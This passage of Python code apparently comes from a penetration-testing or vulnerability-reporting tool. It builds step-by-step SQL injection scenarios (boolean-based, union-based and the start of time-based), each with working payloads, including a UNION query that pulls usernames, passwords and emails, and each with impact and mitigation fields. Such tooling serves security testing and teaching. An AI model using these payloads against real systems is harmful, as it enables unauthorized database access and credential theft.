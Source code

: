 ```python
                {
                    'step': 3,
                    'description': 'Enumerate table names',
                    'payload': f"{parameter}=' OR (SELECT table_name FROM information_schema.tables LIMIT 1)='users'--",
                    'expected_result': 'Table name discovery through boolean logic'
                },
                {
                    'step': 4,
                    'description': 'Extract sensitive data',
                    'payload': f"{parameter}=' OR (SELECT username FROM users LIMIT 1)='admin'--",
                    'expected_result': 'Username enumeration and data extraction'
                }
            ],
            'impact': 'Complete database data extraction through automated boolean queries',
            'mitigation': 'Implement parameterized queries and input validation'
        }

    def _create_union_exploitation_scenario(self, parameter: str) -> Dict[str, Any]:
        """
        Create union-based SQL injection exploitation scenario
        """
        return {
            'type': 'Union-based SQL Injection Exploitation',
            'parameter': parameter,
            'attack_steps': [
                {
                    'step': 1,
                    'description': 'Determine number of columns',
                    'payload': f"{parameter}=' UNION SELECT NULL,NULL,NULL--",
                    'expected_result': 'Successful query execution indicating column count'
                },
                {
                    'step': 2,
                    'description': 'Identify data types',
                    'payload': f"{parameter}=' UNION SELECT 'test',NULL,NULL--",
                    'expected_result': 'String data type confirmation in first column'
                },
                {
                    'step': 3,
                    'description': 'Extract database version',
                    'payload': f"{parameter}=' UNION SELECT @@version,NULL,NULL--",
                    'expected_result': 'Database version information displayed'
                },
                {
                    'step': 4,
                    'description': 'Extract user credentials',
                    'payload': f"{parameter}=' UNION SELECT username,password,email FROM users--",
                    'expected_result': 'Complete user account data extraction'
                }
            ],
            'impact': 'Direct data extraction and potential administrative access',
            'mitigation': 'Use parameterized queries and whitelist input validation'
        }

    def _create_time_based_exploitation_scenario(self, parameter: str) -> Dict[str, Any]:
        """
        Create time-based SQL injection exploitation scenario
        """
        return {
            'type': 'Time-based Blind SQL Injection Exploitation',
            'parameter': parameter,
            'attack_steps': [
```